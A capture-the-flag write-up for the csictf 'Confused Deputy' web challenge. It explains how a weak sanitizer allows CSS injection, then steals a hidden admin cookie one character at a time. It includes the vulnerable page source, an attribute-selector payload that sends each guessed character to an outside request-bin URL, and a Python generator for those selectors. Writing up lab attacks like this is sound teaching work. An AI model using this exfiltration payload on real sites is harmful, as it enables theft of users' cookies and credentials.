

## The Confused Deputy



We are given a website at http://chall.csivit.com:30256/view with an input field that allows the user to change the background color of the page. The website also sets a cookie called 'password' with default value 'PASSWORD'. In the task description were also told that the admin is interested in viewing our favourite color and that we can send it to him at http://chall.csivit.com:30256/admin. Given the hint in the task description and the cookie it is evident that we need to retrieve the admin's cookie using some form of xss.

view

```
<!DOCTYPE html>
<html lang="en">

<head>
    <style>
        .show {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            height: 100vh;
            background-image: linear-gradient(#cc2b5e, #753a88);
        }

        #colorize {
            font-size: 2rem;
            border-radius: 0.5rem;
        }

        #submit {
            height: 2.5rem;
            background-image: linear-gradient(#42275a, #734b6d);
            border: 1px solid #734b6d;
            border-radius: 0.5rem;
            color: white;
        }

        input[type="password"] {
            visibility: hidden;
        }
    </style>
</head>

<body class="show">
    <input type="password" onkeyup="this.setAttribute('value', this.value)" />
    <h1 style="color: white;">Color Visualizer</h1>
    <input id="colorize"></input><br>
    <button id="submit" type="button" onclick="dostuff()">Submit</button>
</body>

<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>

</html>
```
The entered string is embedded in style tags and appended to the head element. What's also noteworthy is that the cookie is embedded in a hidden input element on page load. Because the user input is placed into style tags, xss using regular html tags (probably) isn't possible. After looking for a way to retrieve content from a website using css I found [this](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) article which describes how to exfiltrate data from hidden elements using the css sibling selector. If the input tag wasn't hidden, an easier approach also detailed in the article would be possible. The basic idea is to inject several selectors of which only one will find a suitable element and load its background image with an url that we choose. The selectors look as follows:

```
input[type=password][value^={start_of_the_cookie}{next_character}] ~ * { 
    background-image: url("https://hookb.in/nPXO2V2Dw9uaBBGLq1xy?text={next_character}")
}
```

This selector applies to any element that is adjacent to an input element with an attribute 'type' set to 'password' and an attribute 'value' that starts with the string {start_of_the_cookie}+{next_character}. If we inject one of these selectors for each printable character only one background-image will be loaded because only one suitable element will be found.

```
b = "blue} "
f = 'input[type=password][value^=%s] ~ * { background-image: url("https://hookb.in/nPXO2V2Dw9uaBBGLq1xy?text=%s")}\n'
for s in range(128):
    b += f % ("\\00" + hex(s)[2:], s)
print(b)
```

This script prints one of the above selectors for each of the first 128 characters. Its output needs to be sent to the admin.

admin

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>csictf Admin</title>
</head>
<body>
    <h1>csictf Admin</h1>
    <p>The admin would love to see your favourite color! You can send it to him via this form.</p>
    <form action="/admin" method="POST">
        <input name="url" placeholder="Enter a URL for admin to visit."/><br />
        <input name="color" placeholder="Enter a color for admin to see."/><br />
        <input type="submit" />
    </form>

</body>
</html>
```

The admin page only contains a form that allows us select a page for the admin to visit and the color which will presumably be inserted into the input field. After sending the script's output with the page selected as http://chall.csivit.com:30256/view, the request bin received a request which indicated that the first letter of the cookie is a 'c'.
The letter could then be inserted in the script and the above steps could be repeated. There are probably more elegant methods to solve the task, but this worked just fine.

flag: csictf{cssxss}